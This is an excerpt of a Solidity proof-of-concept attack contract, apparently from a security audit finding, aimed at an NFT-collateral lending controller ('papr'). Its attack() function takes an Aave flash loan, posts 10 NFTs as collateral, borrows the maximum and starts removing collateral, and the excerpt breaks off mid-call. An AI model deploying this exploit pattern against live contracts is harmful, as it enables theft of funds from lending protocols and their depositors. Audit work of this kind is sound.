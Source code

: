 ```
    constructor(
        address _paprControllerAddress,
        address _fundingRateControllerAddress,
        address _aaveAddress,
        ERC721 _nftCollectionAddress,
        OracleInfo memory _oracleInfo,
        ERC20 _paprToken
    ) {
        iPaprController = IPaprController(_paprControllerAddress);
        iFundingRateController = IFundingRateController(
            _fundingRateControllerAddress
        );
        iAAVE = IAAVE(_aaveAddress);
        nftCollectionAddress = _nftCollectionAddress;
        oracleInfo = _oracleInfo;
        paprToken = _paprToken;
    }

    function attack() public {
        ///// STEP1: taking flash loan
        iAAVE.flashLoanSimple(address(this), USDC, 10 * 50000 * 10**6, "", 0);
    }

    function executeOperation(
        address[] calldata assets,
        uint256[] calldata amounts,
        uint256[] calldata premiums,
        address initiator,
        bytes calldata params
    ) external returns (bool) {
        ///// STEP2: buying 10 NFTs

        // Buy 10 NFTs that each worths almost 50k
        // Assume the ids are from 1 to 10

        ///// STEP3: adding the NFTs as collateral
        for (uint256 i = 0; i < 10; ++i) {
            collaterals.push(Collateral({addr: nftCollectionAddress, id: i}));
        }
        iPaprController.addCollateral(collaterals);

        ///// STEP4: borrowing as much as possible
        uint256 oraclePrice = iPaprController.underwritePriceForCollateral(
            nftCollectionAddress,
            PriceKind.LOWER,
            oracleInfo
        );

        uint256 maxDebt = iPaprController.maxDebt(10 * oraclePrice);

        iPaprController.increaseDebt(
            address(this),
            nftCollectionAddress,
            maxDebt,
            oracleInfo
        );

        ///// STEP5: removing the NFT with id 1
        Collateral[] memory collateralArr = new Collateral[](1);
        collateralArr[0] = Collateral({addr: nftCollectionAddress, id: 1});
        iPaprController.removeCollateral(
            address(this),
            collateralArr,
```